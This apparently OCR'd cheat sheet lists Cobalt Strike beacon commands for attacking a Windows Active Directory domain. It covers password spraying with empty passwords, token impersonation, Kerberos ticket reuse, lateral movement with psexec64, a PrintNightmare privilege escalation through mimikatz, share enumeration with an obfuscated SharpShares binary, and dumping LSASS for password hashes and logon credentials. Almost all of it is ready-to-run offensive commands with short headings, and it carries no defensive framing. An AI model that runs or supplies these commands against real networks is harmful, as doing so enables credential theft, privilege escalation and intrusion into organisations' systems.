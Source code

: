 ###### <font style="color:#00b3ff">Running password spraying in the AD (with empty password)</font> 

```
Spray-AD --empty-password
```

###### <font style="color:#00b3ff">Change beacon callback time (to 5s)</font> 

```
sleep 5
```

###### <font style="color:#00b3ff">Impersonate Token (and then rev2self)</font> 

```
-> make_token mydomain.com\myUser myUserPassword
-> rev2self
```

###### <font style="color:#00b3ff">Use a Kerberos ticket</font> 

```
-> keberos_ticket_use /root/documents/myticket.kirbi
-> run klist
```

###### <font style="color:#00b3ff">Spawn a session a remote target with a specified exploit (here psexec64)</font> 

```
jump psexec64 myHostName
```

###### <font style="color:#00b3ff">Run Printnightmare exploit (local Priv Esc) (use mimikatz .cna script)</font> 
```
mimikatz misc::printnightmare /server:localhost /library:C:\users\mydocuments\mylib.dll
```

###### <font style="color:#00b3ff">List Shares in AD</font> 
```
-> execute-assembly /root/dotnet-tools/SharpFuscated_SharpShares.exe /threads:5 /ldap:servers-exclude-dc /filter:sysvol,netlogon,ipc$,print$

-> execute-assembly /root/dotnet-tools/SharpFuscated_SharpShares.exe /threads:5 /ou:"OU=myOU,DC=myDomain,DC=Mydomain2part,DC=Mydomain3part" /filter:sysvol,netlogon,ipc$,print$
```

###### <font style="color:#00b3ff">Find process that has Lsass in memory, then dump it, get logon passwords</font> 
```
-> FindProcHandle lsass.exe
-> hashdump <the_found_pid> x64
-> logonpasswords <the_found_pid> x64
```
